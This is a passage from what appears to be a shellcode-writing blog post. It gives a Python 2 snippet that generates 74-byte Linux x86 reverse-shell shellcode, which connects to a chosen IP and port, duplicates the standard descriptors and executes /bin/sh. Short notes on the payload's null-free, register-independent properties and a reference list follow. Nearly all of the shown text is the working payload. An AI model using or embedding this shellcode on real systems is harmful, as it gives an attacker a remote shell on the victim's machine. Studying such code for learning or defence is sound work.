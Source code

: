 ```python
sc = "\\x99\\x31\\xdb\\x43\\x52\\x53\\x6a\\x02\\x89\\xe1\\x6a\\x66\\x58\\xcd\\x80\\x96\\x43\\x68" + ip + "\\x66\\x68" + port + "\\x05\\x39\\x66\\x53\\x89\\xe1\\x6a\\x10\\x51\\x56\\x89\\xe1\\x43\\xb0\\x66\\xcd\\x80\\x87\\xde\\x31\\xc9\\xb0\\x3f\\xcd\\x80\\x41\\x80\\xf9\\x04\\x75\\xf6\\x52\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x89\\xd1\\xb0\\x0b\\xcd\\x80"  
  
print "Shellcode generated:"  
print sc  
```

---

## Final notes

1\. Shellcode is **null free** assuming the port number is too.  
2\. Shellcode size is **74 bytes**.  
3\. Shellcode is **register-independant**.  

---

## References:

1\. <http://man7.org/linux/man-pages/man2/socketcall.2.html>
2\. <http://lxr.free-electrons.com/source/net/socket.c?v=2.6.35#L2210>.
3\. Hacking: The Art of Exploitation (2nd Edition) - Chapter 4 and 5  

\- Abatchy

